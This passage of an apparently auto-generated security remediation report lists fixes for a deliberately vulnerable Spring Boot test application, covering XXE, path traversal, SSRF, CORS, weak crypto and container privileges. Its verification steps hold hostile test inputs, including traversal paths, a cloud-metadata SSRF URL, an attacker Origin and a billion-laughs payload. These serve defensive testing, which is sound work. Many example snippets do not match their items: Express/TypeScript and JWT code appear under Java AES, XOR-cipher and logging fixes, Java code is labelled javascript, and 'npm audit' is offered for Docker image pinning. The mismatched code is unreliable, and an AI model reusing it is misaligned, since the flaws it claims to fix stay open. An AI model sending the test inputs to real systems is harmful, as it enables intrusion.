2. Maintain an allowlist of permitted MIME types (e.g., PDF, PNG, JPEG, TXT) and reject uploads whose Content-Type does not match.
3. Use Apache Tika for server-side content-type verification independent of the client-supplied MIME type.
4. Generate a random UUID filename for storage and store the original filename only in the database record, not on disk.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:17`: it applies **Validate file type and sanitize filename**. The ordered steps above remain authoritative._

```javascript
// Sanitize filename:
String rawName = file.getOriginalFilename();
String safeFileName = Path.of(rawName != null ? rawName : "upload").getFileName().toString();
// Validate type:
Set<String> ALLOWED_TYPES = Set.of("application/pdf", "image/png", "text/plain");
if (!ALLOWED_TYPES.contains(file.getContentType())) throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
```

**Verification:** Upload a file named `../../test.jsp` with Content-Type text/html; confirm the file is rejected or stored with a sanitized name inside the upload directory only.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-024"></a>
#### M-024 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`)

**Prevents CWEs:**

- [CWE-611](https://cwe.mitre.org/data/definitions/611.html) - XML External Entity (XXE)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**How:**

1. Set `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` immediately after creating the factory.
2. Also set `factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)` and `factory.setExpandEntityReferences(false)` for defense in depth.
3. If XML parsing is not required, remove the endpoint; if the preview is cosmetic, validate via a regex or schema before parsing.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`: it applies **Disable XML external entity (XXE) resolution**. The ordered steps above remain authoritative._

```javascript
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(
    "http://apache.org/xml/features/disallow-doctype-decl", true); // blocks XXE
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
DocumentBuilder builder = factory.newDocumentBuilder();
```

**Verification:** POST the DOCTYPE payload to `/api/xml/preview`; confirm HTTP 400 or a parse exception is returned, with no file content in the response.

**Reference:** [CWE-611: Improper Restriction of XML External Entity Reference (XXE)](https://cwe.mitre.org/data/definitions/611.html)

---

<a id="m-025"></a>
#### M-025 — Add security audit logging

**Addresses:**

- 🟠 [F-027](#f-027) — No Audit Log for H2 Console SQL Queries (`application.yml:16`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/resources/application.yml:16`

**How:**

1. In the H2 JDBC URL, append `;TRACE_LEVEL_FILE=2` to write all SQL statements to an H2 trace file, or configure a JDBC proxy interceptor (e.g., `p6spy`) to log all database calls.
2. Configure Spring Boot's embedded Tomcat access log (`server.tomcat.accesslog.enabled: true`, pattern including timestamp, remote-addr, request-line, status) so that console HTTP requests are recorded.
3. As the primary remediation, disable the H2 console entirely (see 🔴 [F-008](#f-008)) - eliminating the unauthenticated surface removes the need to audit it.

_Example implementation in `src/main/resources/application.yml:16`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```javascript
# application.yml
spring:
  datasource:
    url: jdbc:h2:mem:appsec_verification_target;TRACE_LEVEL_FILE=2;...

server:
  tomcat:
    accesslog:
      enabled: true
      pattern: "%h %t \"%r\" %s"
```

**Verification:** Execute a test SQL statement via the H2 console and confirm the statement appears in the H2 trace file or the configured audit log.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-026"></a>
#### M-026 — Remove password parameter from CredentialLoggingFilter log statement

**Addresses:**

- 🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs (CredentialLoggingFilter) (`CredentialLoggingFilter.java:25`)

**Prevents CWEs:**

- [CWE-532](https://cwe.mitre.org/data/definitions/532.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`

**How:**

1. Remove the password parameter from the `log.info()` call entirely: `log.info("Processing sign-in for username={}", username)`.
2. Log only the outcome (success/failure) and the username, never the credential.
3. Audit all logging statements in the codebase for credential leakage using a grep: `grep -r 'password\|secret\|token' src/ --include='*.java'`.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`: it applies **Remove password parameter from CredentialLoggingFilter log statement**. The ordered steps above remain authoritative._

```javascript
// Before:
log.info("Processing sign-in for username={} password={}", username, password);

// After:
log.info("Processing sign-in for username={}", username);
```

**Verification:** Log in with a test credential and grep the log file for the password value; confirm it is absent.

**Reference:** [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)

---

<a id="m-027"></a>
#### M-027 — Add security audit logging

**Addresses:**

- 🟠 [F-029](#f-029) — No Audit Logging for User Privilege Operations in LegacyAdminBoardController (`LegacyAdminBoardController.java:29`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`

**How:**

1. Emit a structured log entry before each state change: `log.warn("AUDIT action=PROMOTE userId={} by=UNAUTHENTICATED", id)` at minimum.
2. Add Spring Security audit event publishing (ApplicationEventPublisher with a custom AuditApplicationEvent) so that authorization events are recorded to a separate audit log file.
3. Use an append-only audit log sink (separate file, database table with INSERT-only grants, or a structured logging backend).
4. Address the underlying access control gap (🔴 [F-009](#f-009)) which is the root cause of the attributionless action.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** Perform a promote action via `POST /legacy/admin/users/100/promote` and confirm an audit log entry with timestamp, action, and target user ID is written to the security log.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-028"></a>
#### M-028 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-030](#f-030) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest>

1. Pin base image to @sha256:<digest>
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `Dockerfile:1`: it applies **Pin the container base image to an immutable digest**. The ordered steps above remain authoritative._

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** Re-run the IAC-001 scanner check; it reports no match at Dockerfile:1, and the regression test passes.

---

<a id="m-029"></a>
#### M-029 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-031](#f-031) — `Package-lock.json` present and committed (`package-lock.json:0`)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `package-lock.json:0`

**How:** Commit `package-lock.json`; use `npm ci` in CI

1. Commit `package-lock.json`; use `npm ci` in CI
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `package-lock.json:0`: it applies **Pin the container base image to an immutable digest**. The ordered steps above remain authoritative._

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** Re-run the IAC-050 scanner check; it reports no match at `package-lock.json:0`, and the regression test passes.

---

<a id="m-030"></a>
#### M-030 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-032](#f-032) — Cleartext Credential Store Baked into Image (`Dockerfile`) (`Dockerfile:18`)

**Prevents CWEs:**

- [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:18`

**How:**

1. Create or update `.dockerignore` at the repository root to exclude `runtime/`, `*.sqlite`, and any other credential or secret files: add lines `runtime/` and `**/*.sqlite`.
2. Migrate legacy-auth.sqlite passwords to hashed form (Argon2id or bcrypt) in the development seed; never ship plaintext passwords in any committed fixture.
3. Rebuild the image and verify: `docker create <image> --name tmp && docker cp tmp:/app/runtime/legacy-auth.sqlite .` must fail with 'no such file or directory'.
4. If the image has already been pushed to a registry, revoke access or delete all affected tags and rotate any passwords stored in the SQLite file.

_Example implementation in `Dockerfile:18`: it applies **Stop storing sensitive data in cleartext**. The ordered steps above remain authoritative._

```javascript
# .dockerignore (create at repo root)
runtime/
**/*.sqlite
.env
*.pem
*.key
```

**Verification:** After adding .dockerignore, run `docker build -t app-test . && docker create app-test --name check && docker cp check:/app/runtime . 2>&1 | grep -i 'no such'` - expect the copy to fail. Also run `docker history --format '{{.CreatedBy}}' app-test | grep -i sqlite` and confirm no sqlite file appears in any layer command.

**Reference:** [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

---

<a id="m-031"></a>
#### M-031 — Constrain file paths to a safe base directory

**Addresses:**

- 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`

**How:**

1. Normalize and resolve the path: `Path base = Path.of("runtime/documents").toRealPath(); Path target = base.resolve(name).normalize(); if (!target.startsWith(base)) throw new ResponseStatusException(HttpStatus.FORBIDDEN)`.
2. Require authentication for the endpoint (remove it from `permitAll`).
3. Add the endpoint behind an authentication check (`anyRequest()`.`authenticated()` already covers unlisted paths, but this endpoint is explicitly listed).

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`: it applies **Constrain file paths to a safe base directory**. The ordered steps above remain authoritative._

```javascript
Path base = Path.of("runtime/documents").toAbsolutePath().normalize();
Path target = base.resolve(name).normalize();
if (!target.startsWith(base)) {
    throw new ResponseStatusException(HttpStatus.FORBIDDEN, "Path not allowed");
}
return Map.of("path", target.toString(), "content", Files.readString(target));
```

**Verification:** Send `GET /api/files/read?name=../application.yml`; confirm HTTP 403 is returned.

**Reference:** [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

<a id="m-032"></a>
#### M-032 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-034](#f-034) — Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication (`application.yml:33`)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/resources/application.yml:33`

**How:**

1. In SecurityConfig, move `/actuator/`** out of `permitAll()` and require `ROLE_ADMIN`: `.requestMatchers("/actuator/**").hasRole("ADMIN")`.
2. Change `management.endpoints.web.exposure.include` to a minimal allowlist (e.g., `health,info`) in production configuration.
3. Remove `show-values: ALWAYS` from env and configprops; the default (NEVER) prevents credential leakage.
4. If actuator must be accessible, bind it to a separate management port not exposed externally.

_Example implementation in `src/main/resources/application.yml:33`: it applies **Stop exposing internal information to clients**. The ordered steps above remain authoritative._

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Send `GET /actuator/env` without authentication; confirm HTTP 401 or 403 is returned and the response does not contain integration-token.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-033"></a>
#### M-033 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-035](#f-035) — AES/ECB Mode with Hardcoded Key in LegacyCryptoService (`LegacyCryptoService.java:13`)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`

**How:**

1. Switch to `Cipher.getInstance("AES/GCM/NoPadding")` with a random 12-byte IV per operation.
2. Load the AES key from an environment variable or secret manager at startup; reject startup if the variable is absent.
3. Re-encrypt all existing data with the new algorithm and key.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`: it applies **Move cryptographic keys to a managed secret store**. The ordered steps above remain authoritative._

```typescript
// Load the RSA private key from an environment variable / KMS — never
// the source tree. Rotate the prior key and revoke outstanding tokens.
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not set')
const token = jwt.sign(claims, privateKey, { algorithm: 'RS256' })
```

**Verification:** Confirm that the `EXPORT_KEY` literal no longer appears in the compiled codebase and that the encryption uses AES/GCM with a random IV.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-034"></a>
#### M-034 — Replace the weak cryptographic algorithm

**Addresses:**

- 🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage (HomegrownCipher) (`HomegrownCipher.java:8`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`

**How:**

1. Replace HomegrownCipher with AES-256-GCM using a key loaded from an environment variable or secret manager (not hardcoded).
2. Use a unique random 12-byte IV per encryption operation and store it alongside the ciphertext.
3. For the VaultCredential use case (password storage), use Argon2 (password hashing) rather than reversible encryption - stored passwords should not be recoverable.
4. Rotate all credentials currently stored in vault_credentials.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`: it applies **Replace the weak cryptographic algorithm**. The ordered steps above remain authoritative._

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** After migration, confirm that the vault_credentials table contains AES-GCM ciphertext and that decryption requires the externally configured key.

**Reference:** [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)

---

<a id="m-035"></a>
#### M-035 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-037](#f-037) — MD5 Used for Password Hashing in LegacyPasswordService (`LegacyPasswordService.java:15`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**How:**

1. Replace `MessageDigest.getInstance("MD5")` with `passwordEncoder.encode(password)` (BCrypt already configured in SecurityConfig).
2. Re-hash all existing AppUser records using BCrypt on next login via a migration script.
3. If the field is intended as an audit digest (not a verifiable password), use a non-security-sensitive identifier - never store password-derived values in a recoverable form.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`: it applies **Hash passwords with a strong, salted algorithm**. The ordered steps above remain authoritative._

```typescript
// Replace md5/sha1 password hashes with bcrypt or argon2.
import bcrypt from 'bcrypt'
const hash = await bcrypt.hash(plaintext, 12)
const ok = await bcrypt.compare(plaintext, storedHash)
```

**Verification:** Register a new user and confirm the `app_users.password_hash` column does not start with the MD5 hex pattern (32 lowercase hex chars).

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-036"></a>
#### M-036 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)

**Prevents CWEs:**

- [CWE-918](https://cwe.mitre.org/data/definitions/918.html) - Server-Side Request Forgery (SSRF)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`

**How:**

1. Parse the supplied URL and verify the scheme is `https` only and the host matches an explicit allowlist.
2. Block requests to private IP ranges (10.x.x.x, 172.16-31.x.x, 192.168.x.x, 169.254.x.x, ::1) after DNS resolution.
3. Require authentication for the endpoint (remove it from `permitAll`).
4. Use a dedicated HTTP proxy with egress filtering rather than a raw RestTemplate.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`: it applies **Validate and allowlist outbound request targets**. The ordered steps above remain authoritative._

```javascript
URI uri = new URI(url);
if (!"https".equalsIgnoreCase(uri.getScheme())) throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
Set<String> ALLOWED_HOSTS = Set.of("api.partner.example.com");
if (!ALLOWED_HOSTS.contains(uri.getHost())) throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
```

**Verification:** Send `GET /api/integration/fetch?url=http://169.254.169.254/latest/meta-data/`; confirm HTTP 400 is returned.

**Reference:** [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)

---

<a id="m-037"></a>
#### M-037 — Restrict CORS to trusted origins

**Addresses:**

- 🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true (`CorsPolicyFilter.java:31`)

**Prevents CWEs:**

- [CWE-942](https://cwe.mitre.org/data/definitions/942.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:31`

**How:**

1. Replace `isTrustedOrigin()` with an exact-match check against a static allowlist of known origins: `Set.of("https://app.example.com").contains(origin)`.
2. Reflect the origin in the response header only when it matches the allowlist exactly.
3. Never combine a wildcard or overly broad pattern with `Allow-Credentials: true`.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:31`: it applies **Restrict CORS to trusted origins**. The ordered steps above remain authoritative._

```javascript
private static final Set<String> TRUSTED = Set.of("https://app.example.com");

private boolean isTrustedOrigin(String origin) {
    return origin != null && TRUSTED.contains(origin); // exact match, not prefix
}
```

**Verification:** Send a request with Origin: https://evil.example.com; confirm Access-Control-Allow-Origin is absent or does not echo the evil origin.

**Reference:** [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)

---

<a id="m-038"></a>
#### M-038 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-040](#f-040) — SQLite Credential Database Baked Into Docker Image via COPY . /app (`legacy-auth.sqlite`)

**Prevents CWEs:**

- [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `runtime/legacy-auth.sqlite`

**How:**

1. Add `runtime/` to a .dockerignore file so the SQLite database is never copied into any image layer.
2. Change Dockerfile COPY to copy only the application artifact: `COPY target/appsec-verification-target-0.0.1-SNAPSHOT.jar /app/app.jar` instead of the whole context.
3. Remove `chmod -R 777 /app /app/runtime`; create the runtime directory with restricted permissions and set the application to run as a non-root user via `USER appuser`.
4. At container startup, provision the SQLite file from a mounted secret volume or generate it fresh from externally-supplied credentials.

**Verification:** Build the image and confirm `docker run --rm <image> ls /app/runtime/` returns no legacy-auth.sqlite file. Inspect the image layers with `docker history <image>` to confirm no layer adds the file.

**Reference:** [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

---

<a id="m-039"></a>
#### M-039 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`LegacySqliteUserStore.java:100`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:100`

**How:**

1. Add Spring Security's BCryptPasswordEncoder (or the Argon2PasswordEncoder) as a bean and inject it into LegacySqliteUserStore.
2. In `save()`, replace `statement.setString(2, password)` with `statement.setString(2, encoder.encode(password))` to store only the hash.
3. In `authenticate()`, replace the WHERE password=? predicate with a plaintext lookup followed by `encoder.matches(rawPassword, storedHash)` comparison so the hash comparison happens in application code rather than SQL.
4. Re-seed the database with hashed versions of all existing passwords or force a password reset for existing accounts after deployment.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:100`: it applies **Hash passwords with a strong, salted algorithm**. The ordered steps above remain authoritative._

```javascript
// Before (LegacySqliteUserStore.java:100):
statement.setString(2, password); // stored as plaintext

// After — store hash only:
statement.setString(2, passwordEncoder.encode(password));

// In authenticate(), fetch by username only, then verify:
if (passwordEncoder.matches(rawPassword, resultSet.getString("password"))) {
    return Optional.of(readUser(resultSet));
}
```

**Verification:** After the fix, query the database directly (`sqlite3 runtime/legacy-auth.sqlite 'SELECT password FROM legacy_users LIMIT 1'`) and confirm the value begins with `$2a$` (BCrypt) or `$argon2` rather than a plaintext word.

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-040"></a>
#### M-040 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force (`SecurityConfig.java:50`)

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:50`

**How:**

1. Add Bucket4j or Spring Boot's built-in `spring.security.filter.order` combined with a custom AuthenticationFailureHandler that increments a Redis/in-memory counter per IP and per username.
2. Lock accounts after 5 failed attempts for 15 minutes: record failures in a LoginAttemptService and check it in a custom AuthenticationProvider.
3. Add CAPTCHA (`reCAPTCHA` v3) to the `/login` form for repeated failure scenarios.
4. Log all authentication failures with IP, username, and timestamp to a security audit log.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:50`: it applies **Rate-limit and lock out repeated authentication attempts**. The ordered steps above remain authoritative._

```typescript
// Per-IP + per-account rate limiting on auth endpoints.
import rateLimit from 'express-rate-limit'
app.use('/rest/user/login',
  rateLimit({ windowMs: 60_000, max: 5, standardHeaders: true }))
```

**Verification:** Submit 10 consecutive failed login requests; confirm the 6th request is delayed or returns HTTP 429 and the account is locked.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-041"></a>
#### M-041 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion (`XmlPreviewController.java:22`)

**Prevents CWEs:**

- [CWE-400](https://cwe.mitre.org/data/definitions/400.html) - Uncontrolled Resource Consumption

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**How:**

1. Set `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` to block all DOCTYPE declarations including entity definitions.
2. Set `factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)` which imposes entity and entity expansion limits.
3. Limit request body size to a conservative maximum (e.g., 64 KB) via `spring.servlet.multipart.max-request-size` or a dedicated filter.

**Verification:** Post a billion-laughs XML payload (10 levels of entity nesting); confirm the parser returns HTTP 400 or 413 without exhausting heap.

**Reference:** [CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)

---

<a id="m-042"></a>
#### M-042 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-044](#f-044) — Application Container Runs as Root Without USER Directive (`Dockerfile`) (`Dockerfile:31`)

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:31`

**How:**

1. Add `RUN groupadd -r appuser && useradd -r -g appuser appuser` before the ENTRYPOINT and add `USER appuser` as the last instruction before ENTRYPOINT.
2. Replace `chmod -R 777 /app /app/runtime` with `chmod -R 750 /app && chown -R appuser:appuser /app` so only the application owner can write.
3. If the application needs to write to `runtime/`, restrict write permission to that directory only: `chmod 770 /app/runtime && chown appuser:appuser /app/runtime`.
4. Verify by running `docker run --rm <image> whoami` and confirming the output is `appuser`, not `root`.

_Example implementation in `Dockerfile:31`: it applies **Drop unnecessary privileges in build and runtime**. The ordered steps above remain authoritative._

```javascript
# Add before ENTRYPOINT:
RUN groupadd -r appuser && useradd -r -g appuser appuser \
    && chown -R appuser:appuser /app \
    && chmod -R 750 /app \
    && chmod 770 /app/runtime

USER appuser

ENTRYPOINT ["java", "-jar", "/app/target/appsec-verification-target-0.0.1-SNAPSHOT.jar"]
```

**Verification:** Run `docker run --rm <image> id` and confirm UID is non-zero. Attempt to write to `/app/target` from within the container as appuser and confirm permission denied.

**Reference:** [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

---

<a id="m-043"></a>
#### M-043 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-045](#f-045) — Insecure Direct Object Reference (`OrderAccessController.java:24`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`

**How:**

1. Merge the ownership logic from `getOwned()` into `get()`: check `order.getOwner().getUsername().equals(authentication.getName()) || isAdmin` before returning the order.
2. Deprecate the /{id}/owned route and redirect to the secured /{id} route.
3. Add `Authentication authentication` parameter to the `get()` method signature.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`: it applies **Enforce object-level (ownership) authorization**. The ordered steps above remain authoritative._

```javascript
// In OrderAccessController.get():
@GetMapping("/{id}")
public ResponseEntity<OrderSummary> get(@PathVariable Long id, Authentication auth) {
    return customerOrderRepository.findById(id)
        .map(order -> {
            boolean owner = order.getOwner().getUsername().equals(auth.getName());
            boolean admin = auth.getAuthorities().stream()
                .anyMatch(a -> "ROLE_ADMIN".equals(a.getAuthority()));
            if (!owner && !admin) return ResponseEntity.status(HttpStatus.FORBIDDEN).<OrderSummary>build();
            return ResponseEntity.ok(OrderSummary.from(order));
        })
        .orElseGet(() -> ResponseEntity.notFound().build());
}
```

**Verification:** Authenticate as alice, then request `GET /api/orders/102` (bob's order ID); confirm HTTP 403 is returned.

**Reference:** [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

---

<a id="m-044"></a>
#### M-044 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`SecurityConfig.java:34`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`

**How:**

1. Remove `.requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()` from SecurityConfig and let `anyRequest().authenticated()` cover it, then add `@PreAuthorize("hasRole('ADMIN')")` to `AdminReportController.report()`.
2. Alternatively, move the matcher to `.requestMatchers("/api/admin/**").hasRole("ADMIN")` to cover all admin endpoints consistently.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`: it applies **Enforce server-side authorization on every endpoint**. The ordered steps above remain authoritative._

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Send `GET /api/admin/report` without authentication; confirm HTTP 401 or 403 is returned.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

### P3 — Next Quarter

<a id="m-045"></a>
#### M-045 — Replace the weak cryptographic algorithm

**Addresses:**

- 🟠 [F-047](#f-047) — Insecure ECB cipher mode Java (`LegacyCryptoService.java:17`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`

**How:** Use AES/GCM/NoPadding with a unique IV per message.

1. Use AES/GCM/NoPadding with a unique IV per message.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`: it applies **Replace the weak cryptographic algorithm**. The ordered steps above remain authoritative._

